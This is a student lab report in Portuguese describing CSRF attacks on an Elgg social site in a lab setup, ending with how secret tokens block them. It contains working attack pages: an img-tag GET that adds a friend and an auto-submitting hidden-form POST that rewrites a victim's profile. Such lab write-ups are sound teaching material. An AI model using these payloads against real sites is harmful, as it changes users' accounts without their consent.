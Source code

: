 # Laboratório 2 - Cross-Site request forgery

### Felipe Junio Rezende - 11711ECP007

### Murilo Guerreiro Badoco - 11711ECP010

## Tarefa 1 - Observar as requisições HTTP

A seguir, é possível observar uma requisição do tipo GET ao logar como Alice e acessar o seu perfil. Essa requisição não possui parâmetros na URL, mas precisa da informação contida no campo *Cookie,* que representa a sessão do usuário.

![Cross-Site-request-forgery-Images/Sem_ttulo.png](Cross-Site-request-forgery-Images/Sem_ttulo.png)

Em seguida, é feita uma requisição do tipo POST ao editar o perfil de Alice. Para essa requisição, além do *Cookie*, é necessário informar também o *Token, Timestamp* e os dados a serem alterados:

![Cross-Site-request-forgery-Images/Sem_ttulo%201.png](Cross-Site-request-forgery-Images/Sem_ttulo%201.png)

## Tarefa 2 - Ataque CSRF utilizando uma requisição GET

Utilizando a usuária Alice adicionamos Charlie para observar como é feita esta requisição pelo site, uma requisição GET é feita nesta URL [www.csrflabelgg.com/action/friends/add?friend=44&__elgg_ts=1617186090&__elgg_token=baWT8e_sGsqRttAmYr6f8w&__elgg_ts=1617186090&__elgg_token=baWT8e_sGsqRttAmYr6f8w](http://www.csrflabelgg.com/action/friends/add?friend=44&__elgg_ts=1617186090&__elgg_token=baWT8e_sGsqRttAmYr6f8w&__elgg_ts=1617186090&__elgg_token=baWT8e_sGsqRttAmYr6f8w)

![Cross-Site-request-forgery-Images/print1.png](Cross-Site-request-forgery-Images/print1.png)

Podemos observar que há um token e um timestamp para evitar possíveis fraudes, porém como informado no relatório ambos foram desabilitados. O objetivo é fazer com que Boby adicione Alice sem o seu consentimento, para isso criamos um blog post no site Elgg com o link para o site de ataque: [www.csrflabattacker.com](http://www.csrflabattacker.com) . Cujo conteúdo é o seguinte:

```html
<html>
	<h1>CSRF GET ATTACK</h1>
	<img src="http://www.csrflabelgg.com/action/friends/add?friend=43
							&__elgg_ts=&__elgg_token=&__elgg_ts=&__elgg_token="/>
</html>
```

Após identificar que o ID de Boby é 43 realizamos um requisição GET por meio da tag `img` , a partir do momento que a vítima clicar entrar no site irá automaticamente adicionar Boby.

## Tarefa 3 - Ataque CSRF utilizando uma requisição POST

Neste ataque Boby deseja alterar a descrição do perfil pessoal de Alice. Para realiza-lo precisamos verificar como é feita esta alteração, notamos  estes elementos na requisição POST.

![Cross-Site-request-forgery-Images/print2.png](Cross-Site-request-forgery-Images/print2.png)

O roteiro nos forneceu o corpo do código JavaScript abaixo para nos auxiliar nesta tarefa, alteramos o código para se igualar a requisição de alteração e o substituímos no arquivo index.html com as devidas alteações.

```jsx
<html>
    <body>
    <h1>This page forges an HTTP POST request.</h1>
    <script type="text/javascript">
    function forge_post() {
        var fields;
        // The following are form entries need to be filled out by attackers.
        // The entries are made hidden, so the victim won't be able to see them.
        fields += "<input type='hidden' name='name' value='Alice'>";
        fields += "<input type='hidden' name='briefdescription' value='Boby is my Hero'>";
        fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
        fields += "<input type='hidden' name='guid' value='42'>";
    
        // Create a <form> element.
        var p = document.createElement("form");
    
        // Construct the form
        p.action = "http://www.csrflabelgg.com/action/profile/edit";
        p.innerHTML = fields;
        p.method = "post";
    
        // Append the form to the current page.
        document.body.appendChild(p);
        // Submit the form
        p.submit();
    }
    // Invoke forge_post() after the page is loaded.
    window.onload = function() { forge_post();}
    </script>
    </body>
</html>
```

Após Alice clicar no link da página de ataque o seu perfil se modificou para o seguinte

![Cross-Site-request-forgery-Images/print4.png](Cross-Site-request-forgery-Images/print4.png)

### Pergunta 1 - Como Boby identificaria o ID de usuário da Alice?

Boby poderia entrar no perfil da Alice e clicar no botão "Add fried", este botão envia uma requisição ao servidor com o ID de usuário da Alice, como podemos ver abaixo:

![Cross-Site-request-forgery-Images/print5.png](Cross-Site-request-forgery-Images/print5.png)

### Pergunta 2 - Se Boby quisesse atacar qualquer pessoa que acessasse sua página ele ainda conseguiria? Explique.

Não, pois o cross-site request forgery utiliza-se de uma vítima com sessão ativa. Para realizar o ataque Boby precisaria além deste requisito identificar qual é o ID de usuário da vítima e isto não seria possível.

## Tarefa 4 - Implementando medidas defensivas para o Elgg

Os tokens gerados pela habilitação das medidas defensivas fornecidas no relatório podem ser vistos aqui: 

![Cross-Site-request-forgery-Images/print6.png](Cross-Site-request-forgery-Images/print6.png)

Desta vez quando Alice entra no site malicioso de Boby um alerta informando a falta dos tokens é emitido:

![Cross-Site-request-forgery-Images/print7.png](Cross-Site-request-forgery-Images/print7.png)

Isto ocorre, pois quem realiza o ataque não tem acesso à sessão da vítima. É a partir da sessão que os tokens, valores hash md5, são gerados e validados no código backend do site.
